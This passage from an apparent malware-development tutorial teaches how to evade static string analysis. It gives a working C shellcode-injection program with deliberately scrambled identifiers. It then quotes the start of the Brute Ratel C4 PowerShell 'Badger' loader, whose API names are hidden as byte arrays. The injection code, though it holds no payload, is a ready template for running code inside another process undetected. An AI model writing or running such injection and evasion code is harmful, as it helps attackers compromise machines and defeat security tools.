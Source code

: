 Notice that all of the iostream was written to strings, and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look like!

We can remove comments and replace the meaningful identifiers to resolve this problem.

```c
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```


We should no longer have any identifiable string information, and the program is safe from string analysis.

---

As an example for an interpreted language we can observe the deprecated [Badger PowerShell loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) from the [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit).

```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
```